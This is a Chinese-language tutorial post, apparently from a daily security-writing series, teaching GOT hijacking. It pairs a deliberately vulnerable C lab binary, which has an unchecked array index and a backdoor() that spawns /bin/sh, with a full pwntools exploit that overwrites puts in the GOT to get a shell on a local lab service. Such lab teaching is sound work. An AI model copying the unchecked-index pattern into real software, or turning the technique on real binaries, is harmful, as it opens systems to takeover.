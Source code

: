 ```yaml
---
title: "Day10－GOT Hijacking"
date: 2024-09-10
draft: false
tags: ["iron-man-2024", "pwn", "binary-exploitation"]
categories: ["security-research"]
author: "YJK"
showToc: true
TocOpen: false
---
```



## 前言

前一天我們介紹了 GOT 和 Lazy Binding 的機制，今天要介紹的是如何利用這些機制進行攻擊，也就是 GOT Hijacking。

## 簡介

由於 Lazy Binding 的機制，GOT 是可寫的。因此，如果能夠覆蓋 GOT 的值，那麼下次呼叫該函數時，就可以控制即將執行的函數指針。這種情況通常出現在陣列未驗證輸入範圍、記憶體越界（即所謂的 out of bounds，oob）或是透過格式化字串（format string）將特定值寫入 GOT 的情況。

## Lab

```c=
#include<stdio.h>
#include<stdlib.h>

int backdoor(const char *arg){
    system("/bin/sh");
}

long long value[4];

int main(){
    setvbuf(stdin, 0, 2, 0);
    setvbuf(stdout, 0, 2, 0);
    setvbuf(stderr, 0, 2, 0);
    long long index;
    for(int i = 0; i < 4; i++){
        puts("Enter a index to store a value: ");
        scanf("%lld", &index);
        puts("Enter a value: ");
        scanf("%lld", &value[index]);
    }
    if(value[0] != 123){
        puts("CHECK FAILED\n");
        exit(0);
    }
    if(value[1] != 456){
        puts("CHECK FAILED\n");
        exit(0);
    }
    if(value[2] != 789){
        puts("CHECK FAILED\n");
        exit(0);
    }
    if(value[3] != 101112){
        puts("CHECK FAILED\n");
        exit(0);
    }
    puts("CHECK PASSED\n");
    return 0;
}
```

使用以下指令進行編譯（注意，預設編譯會是 Partial RELRO）：

```sh=
gcc src/got.c -o ./got/share/got -fno-stack-protector -no-pie
```

大家可以嘗試練習這道題目，或者繼續閱讀以下的解題步驟。

## writeup

首先，這道題目有一個 `backdoor()` 函數，該函數會直接打開一個 shell。此外，程式允許我們四次機會編輯陣列 `value` 中的值，並且可以自由選擇要修改哪個索引值。由於沒有驗證索引範圍，因此我們可以利用 oob（out of bounds）漏洞，再加上 GOT Hijacking，將某個函數指針覆蓋，使其執行 `backdoor` 函數。

這題相對簡單，因為可以使用 `objdump` 來 disassemble 程式，從中計算應該填入哪些位置。從 `main` 函數可以看到 `value` 陣列的位址是 0x404080。

![image](https://hackmd.io/_uploads/HJUuzlCnA.png)

接下來我們需要找出該填入的位置與 `value` 陣列位址之間的差異。在這裡，我們選擇覆蓋 `puts` 函數，因為在寫入值之後會呼叫 `puts` 函數。確認一下 `puts` 的 GOT 位址是 0x404000，依此就能判斷應該覆蓋哪個索引。

![image](https://hackmd.io/_uploads/rkMOQgAnR.png)

接著，我們要將 `backdoor` 函數的位址（0x401166）寫入。

![image](https://hackmd.io/_uploads/rkfzNlCnA.png)

現在所有資訊都已經掌握，可以開始編寫 exploit。

記得因為程式直接接收數字及數值，因此以字串的形式輸入即可。

完整 exploit：
```py=
from pwn import *

# r = process('../got/share/got')
r = remote('127.0.0.1', 10002)

value = 0x404080
puts_got = 0x404000
backdoor = 0x401166

offset = (puts_got - value) // 8
r.sendlineafter(b'Enter a index to store a value: \n', str(offset).encode())
r.sendlineafter(b'Enter a value: \n', str(backdoor).encode())
r.interactive()
```

solved！！

![image](https://hackmd.io/_uploads/SkYnNl02C.png)

